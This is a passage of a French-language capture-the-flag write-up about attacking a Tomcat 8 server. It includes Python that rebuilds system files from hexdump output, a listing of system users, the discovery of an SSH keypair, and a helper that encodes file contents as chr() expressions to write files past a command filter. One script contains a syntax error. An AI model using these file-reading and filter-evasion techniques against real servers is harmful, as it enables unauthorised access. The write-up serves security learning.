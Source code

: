 ```python
    for line in output3.splitlines():
        if line:
            row = []
            for i, hex_string in enumerate(line.split()):
                if i in (2, 3, 4, 8):
                    row.append(hex_string)
            hexdump3.append(row)

    data = bytearray(19605 + 10)
    reconstruct(data, hexdump1, hexdump2, hexdump3)
    data = data.strip(b"\0")[2:]

    with open("/etc/services") as fd:
        assert fd.read()[2:] == data.decode()

dump(filename)
```

Il y a une fonction de test qui m'a permis de vérifier la bonne exécution en local.  

On aurait pu penser alors que le fichier */etc/tomcat8/tomcat-users.xml* contiennent des identifiants pour l'accès *manager*... mais ce n'est pas le cas.  

A ce stade je note la présence de trois users sur le système :  

```plain
pollinate:x:111:1::/var/cache/pollinate:/bin/false
tomcat8:x:112:115::/usr/share/tomcat8:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bash
```

Comme on s'y attend on a les privilèges *tomcat8* (il suffit de faire un touch suivi d'un ls pour s'en rendre compte).  

J'ai continué à fouiller mais le plus intéressant que j'ai trouvé c'est une paire clé publique/privée SSH dans */usr/share/tomcat8/.ssh* (via un *find / -user tomcat8 -ls* des familles)  

[Il parait que t'as des propos intolérables, où il n'y a pas de tolérance](https://www.youtube.com/watch?v=Op9eonnohNA)
-----------------------------------------------------------------------------------------------------------------------

Bon c'est pas mal mais sans exécution de commande plus poussée on ne va pas bien loin.  

En dehors du problème de colonnes mentionné plus haut, le script n'est pas vraiment bash-aware et semble plus exécuter les commandes via *execve* que par un *bash -c*. En gros on oublie les redirections, les pipe, les backticks, les points virgules et autres joyeusetés...  

Idem pour les quotes, double-quotes... bref c'est intolérable !  

Ce n'est pas la première fois que je croise une situation comme ça mais là il était tant de faire quelque chose ! En mode Python s'il vous plait !  

J'ai donc d'abord écrit le script *write\_to\_file.py* qui permet d'utiliser les fonctions de base de Python pour écrire un fichier sur le serveur :  

```python
import sys

if len(sys.argv) < 3:
    print("Usage: {} local_file server_file"()

def to_chr(data):
    return "+".join(["chr({})".format(ord(c)) for c in data])

text = open(sys.argv[1]).read()
dest = sys.argv[2]

print("open({},chr(119)).write({})".format(to_chr(dest), to_chr(text)))
```
